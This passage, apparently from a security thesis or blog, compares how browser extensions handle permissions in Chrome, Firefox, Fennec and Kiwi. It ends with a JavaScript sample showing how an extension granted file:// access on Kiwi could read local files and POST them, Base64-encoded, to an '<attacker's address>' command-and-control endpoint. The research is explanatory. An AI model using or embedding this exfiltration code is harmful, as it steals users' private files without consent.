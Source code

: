 
### Abusing weak permissions management

Like mobile applications, browser extensions ask at installation time for being granted set of permissions. The permission management is different on mobile and on desktop, and it also depends on the browser.  
For example, regarding Chrome on desktop:

- by default, extensions cannot run in private mode.
- by default, they can access alls the URLs they asked for, but these permissions can be tweaked:
  - **on click**: in other words, just for this time
  - **on specific sites**: even if the extensions asks for the permission to run on any website, the user can still defined their own set of allowed websites
  - **all pages**: the default setting
- extension cannot make use of the scheme `file://` (setting _Allow access to file URLs_)

For Firefox, the same rule applies regarding the private mode, and the access to local files is simply denied. Regarding host permissions, they cannot be adjusted, it is an all-or-nothing approach. As I wrote in the thesis:

"However, these rules are not the same on mobile. Fennec does not give the user the ability to disable the execution in private mode or to tweak the permissions. By default, the application cannot access the private files, but it is a permission at the Android level, that cannot be granted or revoked for a specific extension. Still, Fennec prevents extensions from requesting resources starting with `file://` because the protocols mismatch and the SOP is enforced.  
Regarding Kiwi, it is forbidden by default to run an extension in private mode, and it allows the user to grant or deny the use of the scheme `file://` from extensions whenever they want. However, permissions cannot be adjusted with the same granularity compared to Chrome on desktop."

Problem may appear if Kiwi's user grants the permission to access local files to an extension, because the latter could therefore read private files using this background script (this scripts deals with binary and textual data. A simpler version would just exfiltrate `xhr.responseText`):

```js
var xhr = new XMLHttpRequest();
xhr.open("GET", "file://<file or folder to read>", true);
xhr.responseType = "arraybuffer";
xhr.onload = function (oEvent) {
  var arrayBuffer = xhr.response;
  if (arrayBuffer) {
    var byteArray = new Uint8Array(arrayBuffer);
    var binary = ’’;
    for (var i = 0; i < byteArray.byteLength; i++) {
      binary += String.fromCharCode(byteArray[i]);
    }
    //now send it as Base64 to the C&C
    var xhr_post = new XMLHttpRequest();
    xhr_post.open("POST", "<attacker’s address>", true);
    xhr_post.setRequestHeader(’Content-type’, ’application/x-www-form-urlencoded’);
    xhr_post.send("body=" + encodeURIComponent(btoa(binary)));
  }
}
xhr.send(null);
```
